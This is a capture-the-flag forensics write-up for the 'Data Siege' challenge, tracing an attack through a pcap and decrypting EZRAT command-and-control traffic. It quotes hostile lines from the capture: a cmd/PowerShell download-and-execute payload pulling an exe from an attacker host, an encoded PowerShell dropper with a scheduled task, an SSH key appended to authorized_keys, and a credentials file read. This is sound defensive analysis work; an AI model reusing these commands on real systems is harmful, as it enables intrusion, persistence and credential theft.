# WRITE_UP #

## DATA SIEGE ##

### 1. Analysis ###
* **Given:** a pcap file named `capture.pcap`.
* **Description:** It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels. We need to understand which data has been obtained from this attack to reclaim control of the communication backbone. Note: Flag is split into three parts.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
The pcap file is quite small, so I directly looks through TCP stream to see what happened. In stream 2 and 3, I saw something interesting:



There was a GET package from an application running on java lang, requested for a `.xml` payload from attacker IP's server `10.10.10.21`, port `8080`.

Inside the xml payload was attacker intent:

```xml
<value>cmd.exe</value>
<value>/c</value>
<value><![CDATA[powershell Invoke-WebRequest 'http://10.10.10.21:8000/aQ4caZ.exe' -OutFile 'C:\temp\aQ4caZ.exe'; Start-Process 'c:\temp\aQ4caZ.exe']]></value>
```

He tried to install an exe named `aQ4caZ.exe` from another port of his server, saved it to `C:\temp`, then executed it right after installing.

In the next stream, we can see the malware installed:



In TCP stream 5, there are several payloads that look like base64 encoded strings, however not all of them are valid base64:





However, inside the base64 strings there's a powershell command:
```powershell
powershell.exe -encoded "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA="
```
This is one and only valid base64 string in jungle of fake ones since it decoded by `-encoded` flag of powershell. Using CyberChef to decode it, I got the third part of the flag:



* The third part of the flag is: `0r3d_1n_7h3_h34dqu4r73r5}`

With other base64 strings, at this point it quite clear that the attacker used custom encoding or encryption to obfuscate the traffic, which strongly indicates that the attacker has established a Command and Control channel to his server.

Now the only artifact we have is the malware, so let's analyze it. Using `file` command, we acknowledge this is a `.NET` application:



Since it's a .NET assembly, I used dnSpy to analyze it further. 

The malware has 5 namespaces, first, I checked the `EZRATClient`, inside there's a class named `Decrypt`, maybe it handled the decryption process? let's see:



```c#
public static string Decrypt(string cipherText)
{
	string result;
	try
	{
		string encryptKey = Constantes.EncryptKey;
		byte[] array = Convert.FromBase64String(cipherText);
		using (Aes aes = Aes.Create())
		{
			Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[]
			{
				86,
				101,
				114,
				121,
				95,
				83,
				51,
				99,
				114,
				51,
				116,
				95,
				83
			});
			aes.Key = rfc2898DeriveBytes.GetBytes(32);
			aes.IV = rfc2898DeriveBytes.GetBytes(16);
			using (MemoryStream memoryStream = new MemoryStream())
			{
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
				{
					cryptoStream.Write(array, 0, array.Length);
					cryptoStream.Close();
				}
				cipherText = Encoding.Default.GetString(memoryStream.ToArray());
			}
		}
		result = cipherText;
	}
	catch (Exception ex)
	{
		Console.WriteLine(ex.Message);
		Console.WriteLine("Cipher Text: " + cipherText);
		result = "error";
	}
	return result;
}
```

Apparently the malware uses AES decrypt after decoding the base64 strings, however the key and iv are taken from a method called `rfc2898DeriveBytes`. First I thought this is a random name given by the attacker, but after doing a small research, that's actually a valid class of `.NET`, you can read more about it here [system.security.cryptography.rfc2898derivebytes](https://learn.microsoft.com/en-us/dotnet/api/system.security.cryptography.rfc2898derivebytes?view=net-10.0):



**Rfc2898DeriveBytes** takes a password, a salt, and an iteration count, and then generates PBKDF2 derived key through calls to the GetBytes method. 

With this malware, the attacker uses `HMACSHA1` hash algorithm, iterations `1000`, password is `VYAemVeO3zUDTL6N62kVA` hardcoded in class `Constantes` of `EZRATClient.Utils`, salt is the byte array hardcoed in the class Decrypt above, which using from decimal recipe in CyberChef give us `Very_S3cr3t_S`:





With enough information, we can use CyberChef to compute the PBKDF2 derived key, Since we need 32 bytes for AES key and 16 bytes for AES IV, the derived key size should be 384 which stands for 8*48 bits:



With the AES key and IV, we can easily decode the encoded traffic using CyberChef such as:





All decoded traffic should look like this:
```bash
getinfo-0


procview;


cmd;C:\;hostname


cmd;C:\;whoami


cmd;C:\;echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwyPZCQyJ/s45lt+cRqPhJj5qrSqd8cvhUaDhwsAemRey2r7Ta+wLtkWZobVIFS4HGzRobAw9s3hmFaCKI8GvfgMsxDSmb0bZcAAkl7cMzhA1F418CLlghANAPFM6Aud7DlJZUtJnN2BiTqbrjPmBuTKeBxjtI0uRTXt4JvpDKx9aCMNEDKGcKVz0KX/hejjR/Xy0nJxHWKgudEz3je31cVow6kKqp3ZUxzZz9BQlxU5kRp4yhUUxo3Fbomo6IsmBydqQdB+LbHGURUFLYWlWEy+1otr6JBwpAfzwZOYVEfLypl3Sjg+S6Fd1cH6jBJp/mG2R2zqCKt3jaWH5SJz13 HTB{c0mmun1c4710n5 >> C:\Users\svc01\.ssh\authorized_keys


cmd;C:\;dir C:\Users\svc01\Documents


cmd;C:\;type C:\Users\svc01\Documents\credentials.txt


lsdrives


lsfiles


lsfiles-C:\


lsfiles-C:\temp\


upfile;C:\temp\4AcFrqA.ps1


infoback;0;10.10.10.22|SRV01|SRV01\svc01|Windows 10 Enterprise Evaluation|0.1.6.1


procview;svchost¦2060;svchost¦5316;ApplicationFrameHost¦4920;csrss¦388;svchost¦1372;svchost¦832;VBoxTray¦2748;fontdrvhost¦684;services¦576;svchost¦3528;lsass¦584;svchost¦6872;svchost¦1552;spoolsv¦1748;VBoxService¦1156;svchost¦760;conhost¦4108;svchost¦1152;dllhost¦6864;svchost¦2528;svchost¦1936;Memory Compression¦1428;RuntimeBroker¦4692;svchost¦4112;svchost¦1932;svchost¦748;smss¦284;svchost¦1140;svchost¦6852;svchost¦2320;MicrosoftEdge¦5076;svchost¦1332;svchost¦740;svchost¦3888;conhost¦4896;dwm¦340;java¦6052;svchost¦928;svchost¦3488;YourPhone¦1320;svchost¦1516;dllhost¦4204;SearchUI¦4664;svchost¦328;winlogon¦524;SgrmBroker¦6628;svchost¦2096;svchost¦1504;cmd¦2488;svchost¦1304;NisSrv¦2336;MicrosoftEdgeSH¦5636;svchost¦1104;browser_broker¦4592;svchost¦1100;svchost¦5284;explorer¦4052;svchost¦1164;svchost¦2076;svchost¦1680;aQ4caZ¦7148;svchost¦692;svchost¦100;dumpcap¦3516;MsMpEng¦2260;RuntimeBroker¦4820;svchost¦1272;Microsoft.Photos¦6392;svchost¦3436;fontdrvhost¦676;cmd¦84;taskhostw¦3628;RuntimeBroker¦6188;RuntimeBroker¦1384;java¦7028;MicrosoftEdgeCP¦5592;svchost¦1256;svchost¦3816;csrss¦464;Registry¦68;sihost¦3416;SecurityHealthSystray¦3156;svchost¦6368;svchost¦6564;wininit¦456;ctfmon¦3940;svchost¦1636;SecurityHealthService¦844;svchost¦1040;svchost¦2024;svchost¦6980;svchost¦1628;svchost¦1824;svchost¦1288;wlms¦2216;RuntimeBroker¦5564;svchost¦5364;svchost¦1620;svchost¦2012;svchost¦396;svchost¦6540;RuntimeBroker¦6780;WindowsInternal.ComposableShell.Experiences.TextInput.InputApp¦2200;svchost¦1604;svchost¦788;svchost¦1400;uhssvc¦6824;SearchIndexer¦5532;svchost¦4940;svchost¦3560;svchost¦1392;svchost¦1588;svchost¦1784;wrapper¦2176;svchost¦2568;ShellExperienceHost¦4536;System¦4;conhost¦2368;OneDrive¦1184;svchost¦1472;Idle¦0;


cmd;C:\;srv01


cmd;C:\;srv01\svc01


cmd;C:\;


cmd;C:\; Volume in drive C is Windows 10
 Volume Serial Number is B4A6-FEC6

 Directory of C:\Users\svc01\Documents

02/28/2024  07:13 AM    <DIR>          .
02/28/2024  07:13 AM    <DIR>          ..
02/28/2024  05:14 AM                76 credentials.txt
               1 File(s)             76 bytes
               2 Dir(s)  24,147,230,720 bytes free


cmd;C:\;Username: svc01
Password: Passw0rdCorp5421

2nd flag part: _h45_b33n_r357


lsdrives;C:\|


lsfiles;C:\;$Recycle.Bin¦2|BGinfo¦2|Boot¦2|Documents and Settings¦2|PerfLogs¦2|Program Files¦2|Program Files (x86)¦2|ProgramData¦2|Recovery¦2|System Volume Information¦2|temp¦2|Users¦2|Windows¦2|bootmgr¦1¦408364|BOOTNXT¦1¦1|BOOTSECT.BAK¦1¦8192|bootTel.dat¦1¦80|pagefile.sys¦1¦738197504|swapfile.sys¦1¦268435456|


lsfiles;C:\temp\;aQ4caZ.exe¦1¦29184|


upfilestop;
```

List of attacker's actions is:
1. Host survey:
```bash
getinfo
procview
hostname
whoami
```
2. SSH persistence/access was established by appending a public key to: `C:\Users\svc01\.ssh\authorized_keys`
3. The attacker listed and read the credentials file: `C:\Users\svc01\Documents\credentials.txt`
   * Exposed credentials: `Username`: svc01, `Password`: Passw0rdCorp5421
4. The attacker listed the filesystem and found: `C:\temp\aQ4caZ.exe`
5. A PowerShell script was uploaded: `upfile;C:\temp\4AcFrqA.ps1`
6. The PowerShell script downloaded a new payload from: `https://windowsliveupdater.com/4fva.exe` and saved it to: `C:\Users\svc01\AppData\Roaming\4fva.exe`


## 3. Solution ##
1. **Result:** The flag is `HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}`


